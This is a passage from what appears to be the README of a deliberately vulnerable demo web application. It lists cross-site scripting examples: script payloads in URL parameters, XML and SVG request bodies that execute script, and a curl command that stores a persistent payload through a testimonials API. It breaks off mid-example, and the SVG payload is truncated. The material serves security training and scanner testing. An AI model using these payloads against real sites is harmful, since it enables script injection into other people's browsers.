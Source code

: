     1. **Landing Page Dummy Query Parameter**:

       - URL: `https://brokencrystals.com/?__dummy=__<script>alert('XSS')</script>`
       - The `dummy` query parameter is directly injected into the DOM without sanitization, causing the script to execute.

    2. **Landing Page Map Title Parameter**:

       - URL: `https://brokencrystals.com/?maptitle=<script>alert('XSS')</script>`
       - The `maptitle` parameter is used in the DOM and allows script execution.

    3. **Testimonials Page Count Parameter**:
       - URL: `https://brokencrystals.com/api/testimonials/count?query=<script>alert('XSS')</script>`
       - The `query` parameter is reflected in the response without sanitization, allowing script execution.
    4. **POST to /api/metadata with XML Body**:
       - URL: `https://brokencrystals.com/api/metadata`
       - Body: `<?xml version="1.0" encoding="UTF-8"?><x:script xmlns:x="http://www.w3.org/1999/xhtml">prompt("bright986352")</x:script><child></child>`
       - The XML body is processed and the script is executed in the response.
    5. **POST to /api/metadata with SVG Body**:
       - URL: `https://brokencrystals.com/api/metadata`
       - Body: `<svg xmlns="http://www.w3.org2000/svg" xmlns:xlink="http://www.w3.org1999/xlink" viewBox="0 0 915 585"><g<x:script xmlns:x="http://www.w3.org/1999/xhtml">prompt("bright443188")</`

    </details>

  - **Persistent XSS** can be demonstrated using add testimonial form on the landing page (for authenticated users only).

    <details>
      <summary>Persistent XSS Example Exploitation</summary>

    To demonstrate persistent XSS, you can use the following steps:

    1. Submit the following `curl` request to store the XSS payload:

       ```bash
       curl 'https://brokencrystals.com/api/testimonials' -X POST \
       -H 'authorization: AUTH_TOKEN' \
       -H 'Content-Type: application/json' \
       --data-raw '{"name":"Test User","title":"Test Title","message":"<script>alert(12345)</script>"}'
       ```

    2. Visit the testimonials page at `https://brokencrystals.com/marketplace` to observe the execution of the XSS payload.

    </details>

  - **DOM Cross-Site Scripting** - can be demonstrated by using the mailing list subscription form on the landing page. The form sends a POST request to `/api/subscriptions?email=VALUE`, and the server's response is embedded into the page without any validation on either the server or client side. This allows an attacker to inject malicious scripts into the page.
    <details>
      <summary>Example Exploitation</summary>

    To demonstrate this vulnerability, you can submit the following payload in the email field of the subscription form:
